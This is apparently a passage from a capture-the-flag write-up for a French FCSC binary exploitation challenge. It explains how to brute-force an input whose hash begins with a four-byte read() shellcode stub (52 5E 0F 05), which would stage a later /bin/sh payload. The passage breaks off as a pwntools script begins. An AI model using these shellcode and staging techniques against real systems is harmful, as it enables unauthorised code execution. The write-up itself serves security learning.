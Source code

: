 ##### Making a shellcode

Let's put a breakpoint on `call rdx` (used to jump to our hashed shellcode) and try different inputs.

```C
Input:
FCSC_AAAAAAAAAAAAAAAAAAAAAAAAAAA
gef> x/32xb $rdx
0x555555558040: 0xac    0x67    0xe9    0x40    0x4d    0x71    0x49    0x22
0x555555558048: 0x9b    0x13    0x8d    0xc3    0xc4    0xe2    0x69    0xb8
0x555555558050: 0x96    0x0b    0x3b    0x17    0xab    0xc1    0xd4    0xfc
0x555555558058: 0xa9    0x54    0x97    0x53    0x2b    0xf7    0xa9    0x68
```
```C
Input:
FCSC_AAAAAAAAAAAAAAAAAAAAAAAAAAB
gef> x/32xb $rdx
0x555555558040: 0x8f    0x2c    0x38    0x21    0x66    0x85    0x69    0x42
0x555555558048: 0xc9    0x96    0x91    0x07    0x42    0x6a    0x42    0x46
0x555555558050: 0x11    0x28    0x9b    0xd6    0x54    0x0a    0x65    0x6c
0x555555558058: 0x9b    0x28    0xa3    0x74    0xb3    0x3a    0x02    0x60
```
Everything changed.. We cannot build our shellcode by putting together multiple instruction.
Like I said earlier, the shellcode page have `RWX` protections, we don't need to directly input a `execve("/bin/sh", 0, 0)` shellcode, we can just input a `read()` shellcode to extends our old shellcode without filtering nor hashing.

##### Bruteforce

So we'll have to bruteforce a hash that starts with our shellcode.
Let's have a look to the registers just before the `call rdx` instruction:
```python
$rax   : 0x0000000000000000
$rdi   : 0x0000000000000000
$rsi   : 0x0000000000000000
$rdx   : 0x0000555555558040  <- start of shellcode
$rsp   : 0x00007fffffffe0f0
```

- `rax` is already 0, perfect for a `read` syscall.
- `rdi` (file descriptor) is already 0, `read` will read from `stdin`.
- `rsi` needs to point to our shellcode
- `rdx` will be the number of bytes to read, 0x555555558040 is more than enough.

Our shellcode needs to move `rdx` into `rsi` and syscall, we'll have to make it as small as possible to bruteforce it faster.

```asm
mov rsi, rdx
syscall
```
Gives us `48 89 D6 0F 05`, we can make it smaller by pushing `rdx` on the stack and then popping it into `rsi`.
```asm
push rdx
pop rsi
syscall
```
We get `52 5E 0F 05`. A 3 bytes long one may be possible with some obscure instructions but 4 bytes is enough.
Time to write a python script to bruteforce an input that will produce a hash that starts with `52 5E 0F 05`.
```py
from pwn import *
import random as rnd
from hashlib import *

```